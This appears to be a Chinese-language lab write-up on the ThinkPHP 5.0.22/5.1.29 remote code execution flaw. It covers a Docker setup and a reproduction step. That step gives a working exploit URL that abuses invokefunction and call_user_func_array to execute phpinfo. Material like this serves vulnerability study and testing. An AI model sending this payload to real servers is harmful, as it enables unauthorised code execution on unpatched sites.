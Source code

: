 # ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

参考链接：

- http://www.thinkphp.cn/topic/60400.html
- http://www.thinkphp.cn/topic/60390.html
- https://xz.aliyun.com/t/3570

## 漏洞环境

运行ThinkPHP 5.0.20版本：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到ThinkPHP默认启动页面。

## 漏洞复现

直接访问`http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`，即可执行phpinfo：

![](1.png)
